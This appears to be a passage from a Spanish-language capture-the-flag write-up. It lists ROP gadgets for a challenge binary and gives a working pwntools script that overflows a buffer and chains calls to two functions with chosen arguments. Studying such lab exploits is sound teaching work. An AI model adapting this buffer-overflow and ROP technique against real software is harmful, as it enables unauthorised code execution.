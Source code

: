 ```bash
0x0804949f : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x0804929a : pop ebp ; cld ; leave ; ret
0x08049431 : pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a3 : pop ebp ; ret
0x08049430 : pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a0 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x08049022 : pop ebx ; ret
0x0804942f : pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a2 : pop edi ; pop ebp ; ret
0x080494a1 : pop esi ; pop edi ; pop ebp ; ret
0x08049433 : popal ; cld ; ret
0x0804901a : sal byte ptr [edx + eax - 1], 0xd0 ; add esp, 8 ; pop ebx ; ret
reisraff@3dbbde46a935:~/workdir/challs/port-65144$
```

Los de arriba son gadgets, y hago grep para `pop` que es lo que necesitamos, puedo ver que tenemos un `pop; popular; ret;` en el address `0x080494a2`, así que actualizaré mi exploit así:

```python
#!/usr/bin/env python
import pwn

# pwn.context.log_level = 'debug'

poppopret = pwn.p32(0x080494a2)  # gadgets try ROPgadget

f1 = pwn.p32(0x8049256)     # func1 address
f1arg1 = pwn.p32(0x9c)      # 1st argument of func1
f1arg2 = pwn.p32(300)       # 2nd argument of func1

f2 = pwn.p32(0x804929e)     # func2 address
f2arg1 = pwn.p32(0x0)       # 1st argument of func2
f2arg2 = pwn.p32(0xd)       # 2nd argument of func2
f2arg3 = pwn.p32(0xd)       # 3rd argument of func2

buff = 'A' * 172             # our buffer with 172 A

"""
Now we put all together
buffer + func1 address + poppopret + 1st arg f1 + 2nd arg f1
+ func2 address + JUNK + 1st arg f2 + 2nd arg f2 + 3rd arg f2
"""
payload = buff.encode() \
    + f1 \
    + poppopret \
    + f1arg1 \
    + f1arg2 \
    + f2 \
    + 'JUNK'.encode() \
    + f2arg1 \
    + f2arg2 \
    + f2arg3

open('payload.txt', 'w').write(payload.decode('iso-8859-1'))

elf = pwn.ELF('./port-65144')
p = elf.process()
p.sendline(payload)

print('=========================')
print('what the process returned')
print(p.recv().decode())
```
